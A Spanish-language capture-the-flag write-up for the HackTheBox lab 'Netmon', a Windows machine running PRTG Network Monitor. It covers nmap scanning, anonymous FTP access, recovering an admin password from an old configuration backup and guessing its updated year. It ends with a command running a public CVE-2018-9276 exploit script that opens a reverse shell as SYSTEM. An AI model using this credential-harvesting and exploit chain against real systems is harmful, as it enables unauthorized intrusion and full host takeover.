

# Información

+ Name: Netmon
+ OS: Windows
+ IP: 10.129.230.176
+ Difficulty: Easy

# Enumeracion

### Nmap

```
nmap -p- -sS -Pn -n -vvv --open --min-rate 1000 -oG allports 10.129.230.176
```

```
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 127
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
```

Escaneo detallado:

```
nmap -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sCV -oN targeted 10.129.230.176
```

```
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

`Nmap` revela login anonymous habilitado en `ftp`
### web


PRTG Network Monitor es un software de monitoreo de red desarrollado por paessler.

Probé las credenciales predeterminadas `prtgadmin:prtgadmin` pero no son validas.
### ftp

anonymous login:

```
229 Entering Extended Passive Mode (|||51316|)
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
```

`ls -la`:

```
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
07-14-25  08:13AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
```

En `ProgramData/Paessler/PRTG Network Monitor` se encuentran archivos de configuración de `PRTG`:

```
07-14-25  08:55AM       <DIR>          Configuration Auto-Backups
07-14-25  08:23AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
07-14-25  08:23AM       <DIR>          Logs (Web Server)
07-14-25  08:23AM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
07-14-25  11:01AM              1721958 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
```

En `PRTG Configuration.old.bak` se encuentra la contraseña `PrTg@dmin2018`:

```
<dbpassword>
           <!-- User: prtgadmin -->
           PrTg@dmin2018
</dbpassword>
```

Desafortunadamente no es valida:


Como se encontraba en un backup de un archivo antiguo `.old` probe en cambiar 2018 por 2019 `PrTg@dmin2019`:

Funciona !:



En la pagina principal se encuentra la version instalada de `PRTG Monitor`:


# Explotacion

### CVE-2018-9276

En versiones anteriores a la 18.2.39. Un atacante con acceso al PRTG con privilegios de administrador puede explotar una vulnerabilidad de inyección de comandos del sistema operativo a través de campos mal sanitizados en la configuración de sensores personalizados.

Yo use este exploit de [A1vinSmith](https://github.com/A1vinSmith/CVE-2018-9276)

```
python3 exploit.py -i 10.129.230.176 -p 80 --lhost 10.10.14.111 --lport 443 --user prtgadmin --password PrTg@dmin2019
```

Shell como `nt authority\system`:

```
<..snip..>
C:\Windows\system32>whoami
whoami
nt authority\system
```

Flags:

`user.txt`

```
d0d26d8*************************
```

`root.txt`

```
ceaba7**************************
```

# 🦀
